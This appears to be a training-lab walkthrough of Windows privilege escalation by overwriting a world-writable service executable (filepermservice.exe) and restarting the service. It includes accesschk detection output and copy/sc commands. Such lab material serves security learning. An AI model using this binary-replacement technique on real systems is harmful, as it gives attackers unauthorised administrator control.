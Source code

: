 Windows VM

1. Open command prompt and type: `C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"`
2. Notice that the "Everyone" user group has "FILE_ALL_ACCESS" permission on the "filepermservice.exe" file.

**Exploitation**

Windows VM

1. Open command prompt and type: `copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`
2. In command prompt type: `sc start filepermsvc`
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

## #6.1 - Click 'Completed' once you have successfully elevated the machine

**Detection**

Let's first ensure we can write in "C:\Program Files\File Permissions Service" directory:

~~~
C:\Users\user>C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Pro
gram Files\File Permissions Service

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
~~~

Write access to "filepermservice.exe" is granted for everyone, so that's perfect.

**Exploitation**

Now, let's use our previous executable (`x.exe`) to replace the "filepermservice.exe", and start the service:

~~~
C:\Users\user>copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
        1 file(s) copied.

C:\Users\user>sc start filepermsvc

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3720
        FLAGS              :
~~~

